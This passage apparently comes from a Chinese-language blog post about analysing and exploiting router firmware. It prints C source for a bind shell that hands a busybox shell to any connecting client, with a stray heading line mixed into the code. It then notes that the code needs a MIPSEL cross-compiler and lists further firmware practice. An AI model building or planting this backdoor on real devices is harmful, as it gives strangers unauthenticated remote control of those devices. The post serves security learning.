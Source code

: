 ```
   char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
   char *args[] = { "/bin/busybox", "sh", (char *) 0 };
   Analyzing and Exploiting Firmware
   struct sockaddr_in server, client;
   socklen_t len;

   server.sin_family = AF_INET;
   server.sin_port = htons(SERVER_PORT);
   server.sin_addr.s_addr = INADDR_ANY;

   serverfd = socket(AF_INET, SOCK_STREAM, 0);
   bind(serverfd, (struct sockaddr *)&server, sizeof(server));
   listen(serverfd, 1);

    while (1) {
         len = sizeof(struct sockaddr);
         clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork();
        if (server_pid) {
         write(clientfd, banner,  strlen(banner));
           for(; i <3 /*u*/; i++) dup2(clientfd, i);
           execve("/bin/busybox", args, (char *) 0);
           close(clientfd);
         } close(clientfd);
    } return 0;
}

```

需要在对应Buildroot交叉编译环境下进行编译，这里就需要MIPSEL架构的交叉编译环境



## 接下来需要学习的

在上述的小点中，还有很多的细节需要掌握，基础需要夯实，比如squashfs类型的文件系统的操作，重新打包时需要注意的问题和处理办法等等，那么接下来就是多找一些案例固件，像学web时打靶机的时候一样，总结思路和经验，查漏补缺，尝试不同品牌不同架构的路由器固件。

[安全客文章]: https://www.anquanke.com/post/id/198311